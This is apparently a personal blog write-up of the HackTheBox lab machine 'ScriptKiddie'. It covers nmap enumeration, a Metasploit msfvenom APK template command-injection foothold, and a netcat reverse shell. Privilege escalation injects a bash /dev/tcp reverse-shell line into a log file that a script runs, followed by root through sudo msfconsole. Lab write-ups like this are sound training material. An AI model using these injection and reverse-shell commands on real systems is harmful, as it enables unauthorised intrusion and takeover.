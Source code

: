 ```yaml
---
title: HackTheBox - ScriptKiddie
date: 2021-06-23 13:21:10 +/- 0000
categories: [HackTheBox,Easy]
author: Connor Weeks-Pearson
tags: [scriptkiddie]
image: /assets/img/Icons/ScriptKiddie/script.png
---
```


This box was the first live box i've managed to root. Utilising metasploit to gain a foothold, and then writing a bash reverse shell into a file to elevate privileges, gaining root

**Key takeways:**

- Template command injection using metasploit
- Identifying and understanding vulnerabilities in bash scripts
- Writing a reverse shell bash script into target file

---

***Machine IP = 10.10.10.226***

## Enumeration

First things first, start out with an nmap scan of the host.

`nmap -sV -sC -T 5 10.10.10.226`

<pre>─$ nmap -sV -sC -T 5 10.10.10.226                                                                          130 ⨯
Starting Nmap 7.91 ( https://nmap.org ) at 2021-04-28 08:59 EDT
Nmap scan report for 10.10.10.226
Host is up (0.031s latency).
Not shown: 998 closed ports
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 3c:65:6b:c2:df:b9:9d:62:74:27:a7:b8:a9:d3:25:2c (RSA)
|   256 b9:a1:78:5d:3c:1b:25:e0:3c:ef:67:8d:71:d3:a3:ec (ECDSA)
|_  256 8b:cf:41:82:c6:ac:ef:91:80:37:7c:c9:45:11:e8:43 (ED25519)
5000/tcp open  http    Werkzeug httpd 0.16.1 (Python 3.8.5)
|_http-server-header: Werkzeug/0.16.1 Python/3.8.5
|_http-title: k1d'5 h4ck3r t00l5
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 7.84 seconds
</pre>

As we can see, we have SSH on port 22, and a web server titled "k1d'5 h4ck3r t00l5". Lets take a look:

### Website

![Website](/assets/img/Icons/ScriptKiddie/scriptkiddiewebsite.png)

Initial thoughts are pointing me towards the file upload button, maybe we can upload a reverse shell?

---

## Foothold

After playing around with the site, and googling Linux template file upload vulnerabilities, i came accross a metasploit module on rapid7:

[Rapid 7 - msfvenom apk cmd injection](https://www.rapid7.com/db/modules/exploit/unix/fileformat/metasploit_msfvenom_apk_template_cmd_injection/)

It outlines the steps as follows:

<pre>msf > use exploit/unix/fileformat/metasploit_msfvenom_apk_template_cmd_injection
msf exploit(metasploit_msfvenom_apk_template_cmd_injection) > show targets
    ...targets...
msf exploit(metasploit_msfvenom_apk_template_cmd_injection) > set TARGET < target-id >
msf exploit(metasploit_msfvenom_apk_template_cmd_injection) > show options
    ...show and set options...
msf exploit(metasploit_msfvenom_apk_template_cmd_injection) > exploit</pre>

Where 
- RHOSTS = 10.10.10.226
- RPORT = 5000
- LHOST = 10.10.14.15
- RPORT = 5555

Running this module produced an APK with a reverse shell called msf.apk. As APK's are used for applications on android devices, we can attempt via the android OS option. Lets try and upload this to the webserver and connect back to our machine.

### Getting a shell

First, lets start our netcat listener on our host machine:

`nc -nvlp 5555`

<pre>
┌──(kali㉿kali)-[~/Desktop]
└─$ nc -nvlp 5555                 
listening on [any] 5555 ...
</pre>

and then upload the APK to the target machine via the website, with the OS set to android, and then press generate.

<pre>
┌──(kali㉿kali)-[~/Desktop]
└─$ nc -nvlp 5555                                                                                             
listening on [any] 5555 ...
connect to [10.10.14.15] from (UNKNOWN) [10.10.10.226] 50388
whoami
kid
</pre>

Boom! we have a reverse shell! now lets elevate it to an interactive shell using 

`python3 -c 'import pty; pty.spawn("/bin/bash")'`

<pre>┌──(kali㉿kali)-[~/Desktop]
└─$ nc -nvlp 5555                                                                                             1 ⨯
listening on [any] 5555 ...
connect to [10.10.14.15] from (UNKNOWN) [10.10.10.226] 50392
whoami
kid
python3 -c 'import pty; pty.spawn("/bin/bash")'
kid@scriptkiddie:~/html$ 
</pre>

### User.txt
Some quick searching lead to the first flag:
<pre>
kid@scriptkiddie:~$ more user.txt
more user.txt
***d05c9b66325f22*a4c59c75c*7a03
</pre>

---

## Priveledge Esculation

Looking around, it seems there is another user: `pwn`
In the directory is a file called `scanlosers.sh`. Lets take a look:

<pre>kid@scriptkiddie:/home/pwn$ cat scanlosers.sh
cat scanlosers.sh
#!/bin/bash

log=/home/kid/logs/hackers

cd /home/pwn/
cat $log | cut -d' ' -f3- | sort -u | while read ip; do
    sh -c "nmap --top-ports 10 -oN recon/${ip}.nmap ${ip} 2>&1 >/dev/null" &
done

if [[ $(wc -l < $log) -gt 0 ]]; then echo -n > $log; fi
</pre>

It looks as though the script is always being run, taking an ip from hackers and then running it, deleting the contents of hackers when it is finished. Maybe we can write a shell to the file?

After lots of trial and syntax errors, i finally got a shell using the following:

`echo "  ;/bin/bash -c 'bash -i >& /dev/tcp/10.10.14.15/1234 0>&1'  #" > hackers`

Using the `;` to escape from recon/ and `#` to comment out everything after our script.

<pre>
┌──(kali㉿kali)-[~/Desktop]
└─$ nc -nvlp 1234                                                                                             
listening on [any] 1234 ...
connect to [10.10.14.15] from (UNKNOWN) [10.10.10.226] 33360
bash: cannot set terminal process group (870): Inappropriate ioctl for device
bash: no job control in this shell
pwn@scriptkiddie:~$ whoami
whoami
pwn
</pre>

Great! Lets see what commands can be run by pwn

`sudo -l`

<pre>
pwn@scriptkiddie:~$ sudo -l
sudo -l
Matching Defaults entries for pwn on scriptkiddie:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User pwn may run the following commands on scriptkiddie:
    (root) NOPASSWD: /opt/metasploit-framework-6.0.9/msfconsole
</pre>

Looks as though we can run metasploit as root on pwn with no password needed!

<pre>
msf6 > whoami
[*] exec: whoami

root
</pre>

### Root.txt

<pre>
msf6 > cat root.txt
[*] exec: cat root.txt

***31120548006c2e8fc52d912365797
</pre>